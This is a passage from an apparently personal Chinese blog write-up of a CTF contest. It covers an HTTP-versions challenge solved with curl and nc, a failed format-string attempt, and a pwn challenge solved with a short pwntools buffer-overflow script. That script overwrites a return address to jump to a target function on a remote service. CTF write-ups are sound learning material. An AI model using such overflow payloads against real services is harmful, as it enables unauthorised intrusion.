 >  之前 Tailscale，upnpc 之类的东西用得挺舒服的，联机游戏玩得挺爽的，但是这方面的底层原理， 我还是一点也不懂啊 ... 并且这东西看起来不像是一两天就能搞定的，慢慢学吧。

### 🌐 ✅ It's all about HTTP

跨越长城，走向世界！

这道题需要使用五个不同的 HTTP 版本向题目发送请求，解法如下：

- HTTP/0.9: `echo 'GET /' | nc IP PORT`
- HTTP/1.0: `curl --http1.0 http://IP:PORT`
- HTTP/1.1: 浏览器访问即可
- HTTP/2.0: `curl --http2 -k https://IP:PORT`
- HTTP/3.0: `curl3 --http3-only -k https://IP:PORT`

{%image https://imgsrc.chyk.ink/c9fcc3cec3fdfc03471f679c923f8794a4c226ab.webp %}

> HTTP/0.9 ... 去年在做 [HTTP 集邮册](/2023/11/04/hackergame-2023/#📶-✅-HTTP-集邮册)的时候，无意间认识到了这个东西，没想到它在一年后还在追我。
>
> HTTP/3 ... 国内运营商对 UDP 的态度都是天天丢包，爱搭不理，所以在我自己的上网配置上，直接阻止了所有 HTTP/3 的请求。我还特地找了另外一台机子做的这一问。

### 🤯 ⭕ Pwn~ 应声倒下

没有 pwn 基础，因此只是现学现卖地做出了第一个 flag。

#### ✍️ ✅ N 个人各自有着自己的秘密

[堆栈平衡](https://huzai9527.github.io/2020/12/12/PWN-%E5%A0%86%E6%A0%88%E5%B9%B3%E8%A1%A1/)。在比赛第二天晚上，给出了一篇[博文](https://blog.csdn.net/Myon5/article/details/131594204)作为提示，但在当天上午我就已经搜到了它，并且照着拿到了 flag。

```python 解题脚本
from pwn import *
import time
p=remote("IP", PORT)
payload = b"a" * (0x40+8)+ p64(0x40117A) + p64(0x401156)
print(p.recvline())
p.send(payload)
p.interactive()
```

#### 📚 ❌ 魔法禁书目录

[格式化字符串攻击](https://ctf-wiki.org/pwn/linux/user-mode/fmtstr/fmtstr-exploit/#_8)。文档中使用的是 `gef` 工具，但 ctf-wiki 是 Python 2 时代编写的，严重过时，不仅现在的题目由 32 位变成了 64 位，`gef` 的界面也早已变化，我根本找不到格式化字符串是 `printf` 的第几个参数，穷举失败后作罢。

#### 💸 ❌ 寻￥环游记

pwn 困难 ... 直接放弃（逃）

### 🐍 ⭕ Online Judge

A ✌️，带我走吧 😭😭😭😭😭😭😭

#### 🤏 ✅ Uncontrollable
